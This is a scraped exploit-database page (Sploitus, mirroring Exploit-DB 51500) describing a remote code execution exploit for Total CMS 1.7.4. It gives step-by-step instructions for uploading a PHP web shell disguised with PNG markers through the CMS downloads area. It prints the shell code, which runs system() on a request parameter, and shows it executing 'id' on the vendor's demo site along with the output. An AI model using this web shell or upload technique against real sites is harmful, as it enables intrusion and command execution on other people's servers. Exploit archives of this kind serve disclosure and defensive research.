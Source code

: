 ```yaml
---
title: Total CMS 1.7.4 - Remote Code Execution (RCE) exploit
url: https://sploitus.com/exploit?id=EDB-ID:51500&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-05
fetch_date: 2025-10-04T11:44:16.050645
---
```


# Total CMS 1.7.4 - Remote Code Execution (RCE) exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Total CMS 1.7.4 - Remote Code Execution (RCE)

2023-06-04 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51500
# Exploit Title: Total CMS 1.7.4 - Remote Code Execution (RCE)
# Date: 02/06/2023
# Exploit Author: tmrswrr
# Version: 1.7.4
# Vendor home page : https://www.totalcms.co/

1) Go to this page and click edit page button
https://www.totalcms.co/demo/soccer/
2)After go down and will you see downloads area
3)Add in this area shell.php file

?PNG
...
<?php echo "<pre>";system($_REQUEST['cmd']);echo "</pre>"  ?>
IEND

4) After open this file and write commands

https://www.totalcms.co/cms-data/depot/cmssoccerdepot/shell.php?cmd=id
Result :

?PNG ...

uid=996(caddy) gid=998(caddy) groups=998(caddy),33(www-data)

IEND
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)